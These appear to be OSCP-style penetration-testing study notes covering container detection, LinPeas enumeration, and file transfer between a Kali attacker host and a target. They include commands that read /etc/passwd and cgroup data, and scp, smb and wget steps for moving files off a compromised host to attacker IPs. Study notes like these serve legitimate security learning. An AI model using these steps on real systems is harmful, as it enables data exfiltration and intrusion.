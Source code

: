 2. docker/kubernetes check
```
cat /proc/self/cgroup
ls -alh /.dockerenv : docker's env variables 
cat /etc/passwd
```


### automatic tools 
- it's hard to remember command > automatic tools 
    - OSCP much use 

    - LinPeas : information gathering 

- file transfer 
    - Kali -> Target host 
    1. scp FILE user1@Ip:/tmp/FILE
        - scp blank2.txt low@172.31.133.167:/home/low/blank2.txt
        - vice versa can : 
        - service ssh start
        - scp mefirst.txt kali@10.8.0.129:/home/kali/test/mefirst.txt

    2. ftp KALIIP PORT : kali - server vsftpd > target - get  
    3. nfs mount > write 
    4. smb smbclient put FILE  :
    ```
    systemctl start smbd
    /etc/samba/smb.conf > [jim] Disk create, and grant guest permissions. 
    smbmap -H 10.8.0.129
    smbclient \\\\10.8.0.129\\jim
    get FILE
    ```

    5. HTTP server- kali, wget - host : 
    ```
    python3 -m http.server 8081
    wget http://10.8.0.129:8081/html.txt
    ```

    - Target -> Kali : network service leverage 
```
scp FILE kali@IP:/tmp/test/FILE
blocked by firewall 
telnet test first if it's blocked or not > network service port
telnet KALI PORT 
telnet 10.8.0.129 21 : connected
telnet 10.8.0.129 445 : connected

  
apt install vsftpd
service vsftpd status 
systemctl status vsftpd
```

